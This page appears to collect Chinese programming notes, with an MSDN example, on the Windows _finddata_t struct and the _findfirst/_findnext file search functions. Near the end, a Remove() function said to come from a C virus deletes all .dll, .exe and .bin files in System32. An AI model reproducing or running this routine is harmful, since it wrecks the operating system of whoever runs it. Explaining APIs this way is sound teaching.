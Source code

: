 ## [_finddata_t结构体用法](https://blog.csdn.net/wangqingchuan92/article/details/77979669)
Struct _finddata_t是用来存储文件各种信息的结构体，使用这个结构体要引用的头文件为“ #include <io.h>”它的结构体定义如下：
```cpp
struct _finddata_t
{
      unsigned attrib;
      time_t time_create;
      time_t time_access;
      time_t time_write;
      _fsize_t size;
      char name[_MAX_FNAME];
};
```
该结构体中各成员的变量的含义如下：
unsigned atrrib：文件属性的存储位置。它存储一个unsigned单元，用于表示文件的属性。文件属性是用位表示的，主要有以下一些：_A_ARCH（存档）、 _A_HIDDEN（隐藏）、_A_NORMAL（正常）、_A_RDONLY（只读）、_A_SUBDIR（文件夹）、_A_SYSTEM（系统）。这些都是在中定义的宏，可以直接使用，而本身的意义其实是一个无符号整型（只不过这个整型应该是2的几次幂，从而保证只有一位为 1，而其他位为0）。既然是位表示，那么当一个文件有多个属性时，它往往是通过位或的方式，来得到几个属性的综合。例如只读+隐藏+系统属性，应该为：_A_HIDDEN | _A_RDONLY | _A_SYSTEM 。

time_t time_create：这里的time_t是一个变量类型，实际上就是长整形变量 long int，用来保存从1970年1月1日0时0分0秒到现在时刻的秒数

time_t time_access：文件最后一次被访问的时间。

time_t time_write：文件最后一次被修改的时间。

_fsize_t size：文件的大小（字节数表示）。

char name[_MAX_FNAME]：文件的文件名。这里的_MAX_FNAME是一个常量宏，它在头文件中被定义，表示的是文件名的最大长度。

如何使用这个结构体才能够将文件的信息存储到该结构体的内存空间呢，这就需要_findfirst（）、_findnext（）和_fineclose（）三个函数的搭配使用，下面介绍这三个函数：

 

 

long _findfirst( char *filespec, struct _finddata_t *fileinfo )；

        返回值：如果查找成功的话，将返回一个long型的唯一的查找用的句柄。这个句柄将会在_findnext函数中被使用。失败返回-1.

        参数：

        filespec：标明文件的字符串，可支持通配符。比如：*.c，则表示当前文件夹下的所有后缀为C的文件。

        fileinfo ：这里就是用来存放文件信息的结构体的指针。这个结构体必须在调用此函数前声明，不过不用初始化，只要分配了内存空间就可以了。函数成功后，函数会把找到的文件的信息放入这个结构体所分配的内存空间中。

int _findnext( long handle, struct _finddata_t *fileinfo );

        返回值：若成功返回0，否则返回-1。

        参数：

         handle：即由_findfirst函数返回回来的句柄。

         fileinfo：文件信息结构体的指针。找到文件后，函数将该文件信息放入此结构体中。

int _findclose( long handle );

         返回值：成功返回0，失败返回-1。

         参数：

          handle ：_findfirst函数返回回来的句柄。

该结构体和搭配的函数使用的逻辑就是先用_findfirst查找第一个文件，若成功则用返回的句柄，调用_findnext函数查找其他的文件，当查找完毕后用，用_findclose函数结束查找。下面我们就按照这样的思路来编写一个查找某一个文件夹下的所有word文档的程序。

现在在E盘建立一个文件夹名叫“Test”，在该文件夹内，建立四个word文件和文本文件，如下图：
然后打开visual 2010 新建工程，输入如下代码：
```cpp
#include<stdio.h>
#include<io.h>
#include<Windows.h>
 
#define ADDR "E://Test//*.docx"
 
const char* SreachAddr=ADDR;
 
int main(void)
{
	long Handle;
	struct _finddata_t FileInfo;
	Handle=_findfirst(SreachAddr,&FileInfo);
	if(-1==Handle)
		return -1;
	printf("%s\n",FileInfo.name);
	while(!_findnext(Handle,&FileInfo))
	{
		printf("%s\n",FileInfo.name);
	}
	_findclose(Handle);
	system("pause");
  
	return 0;
}
```
编译运行，结果如下：

 



当然，在找到所有需要的文件后，不仅仅可以通过终端打印出来，还可以进行删除、改名等操作。一般的C语言病毒会用到这个结构体加配合函数进行找到某一类型的文件然后进行恶意删除，例如某一C语言病毒中的删除操作代码如下：
```cpp
void Remove()
{
  int done;
   int i;
 
   struct _finddata_t ffblk;
   char *documenttype[3] = {"C://Windows//System32//*.dll","C://Windows//System32//*.exe","C://Windows//System32//*.bin"};
   for (i = 0; i < 3; i++)
   {
     done = _findfirst(documenttype[i],&ffblk);    
     remove(ffblk.name);
 
     while (!_findnext(done,&ffblk))
     {
         remove(ffblk.name);
     }
     _findclose(done);
   }
 
}    
```
参考资料：
1.[http://blog.csdn.net/yang332233/article/details/53081785](http://blog.csdn.net/yang332233/article/details/53081785)
2.[http://blog.csdn.net/wzhwho/article/details/6372353](http://blog.csdn.net/wzhwho/article/details/6372353)

## [MSDN-Filename Search Functions](https://docs.microsoft.com/en-us/cpp/c-runtime-library/filename-search-functions?view=vs-2019)
```cpp
// crt_find.c
// This program uses the 32-bit _find functions to print
// a list of all files (and their attributes) with a .C extension
// in the current directory.

#include <stdio.h>
#include <stdlib.h>
#include <io.h>
#include <time.h>

int main( void )
{
   struct _finddata_t c_file;
   intptr_t hFile;

   // Find first .c file in current directory
   if( (hFile = _findfirst( "*.c", &c_file )) == -1L )
      printf( "No *.c files in current directory!\n" );
   else
   {
      printf( "Listing of .c files\n\n" );
      printf( "RDO HID SYS ARC  FILE         DATE %25c SIZE\n", ' ' );
      printf( "--- --- --- ---  ----         ---- %25c ----\n", ' ' );
      do {
         char buffer[30];
         printf( ( c_file.attrib & _A_RDONLY ) ? " Y  " : " N  " );
         printf( ( c_file.attrib & _A_HIDDEN ) ? " Y  " : " N  " );
         printf( ( c_file.attrib & _A_SYSTEM ) ? " Y  " : " N  " );
         printf( ( c_file.attrib & _A_ARCH )   ? " Y  " : " N  " );
         ctime_s( buffer, _countof(buffer), &c_file.time_write );
         printf( " %-12s %.24s  %9ld\n",
            c_file.name, buffer, c_file.size );
      } while( _findnext( hFile, &c_file ) == 0 );
      _findclose( hFile );
   }
}
```
